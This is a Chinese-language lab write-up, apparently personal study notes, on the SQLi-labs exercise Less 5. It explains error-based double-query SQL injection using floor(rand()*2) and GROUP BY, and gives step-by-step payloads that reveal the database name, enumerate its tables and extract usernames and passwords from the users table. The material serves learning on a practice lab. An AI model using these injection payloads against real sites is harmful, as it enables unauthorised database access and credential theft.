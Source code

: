 查询到临时表中记录有，所以次数加一，当进行到第三次查询的时候floor(rand())函数产生结果0，

临时表中没有，于是乎进行第二次插入，插入时再次执行随机数函数产生结果为1，临时表中有字段为1的值，

由于UNIQUE限制不能有相同字段出现，那么此次插数据时就会发生错误。

我们不将想要显示的值直接显示，而是用concat函数将其与错误信息的输出进行拼接，就可以在错误信息中看到想要的内容。(个人初步理解，写得有点乱)

## 步骤

1.还是单引号先检测发现页面回传不对，猜测可能存在单引号注入

2.使用二次查询注入手法构造payload:

`?id=0' union select null,count(*),concat((select database()),floor(rand()*2))as a from information_schema.schemata group by a --+`

[![0j10yt.jpg](https://s1.ax1x.com/2020/10/18/0j10yt.jpg)](https://imgchr.com/i/0j10yt)

该代码查询当前所在的数据库security，接下来要对其中的表进行查询

payload:

`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security'),floor(rand()*2))as a from information_schema.columns group by a--+`

但是呢，如图，我们现在又遇到了新的问题，就是返回的结果不止一行，但是要求只显示一行的结果，我们这里就可以利用SQL语句LIMIT属性对返回的结果进行行限制


[![0j1BOP.jpg](https://s1.ax1x.com/2020/10/18/0j1BOP.jpg)](https://imgchr.com/i/0j1BOP)

payload:

`?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security' limit 0,1),floor(rand()*2))as a from information_schema.columns group by a--+`


结果回显


[![0j1wQI.jpg](https://s1.ax1x.com/2020/10/18/0j1wQI.jpg)](https://imgchr.com/i/0j1wQI)

接着，用同样的方法对显示位置进行选择，直到对所有的表进行输出一遍。

找到users表，对其中的内容进行输出

找到跟用户有关的两个关键字段username和password，然后选中进行输出，但是只能输出一条结果

`id=0' union select null,count(*),concat((select concat('|',username,'~',password) from users limit 0,1),floor(rand()*2) as a from information_schema.columns group by a--+`



***
# less 6(双查询注入双引号闭合字符型)
***

## 原理
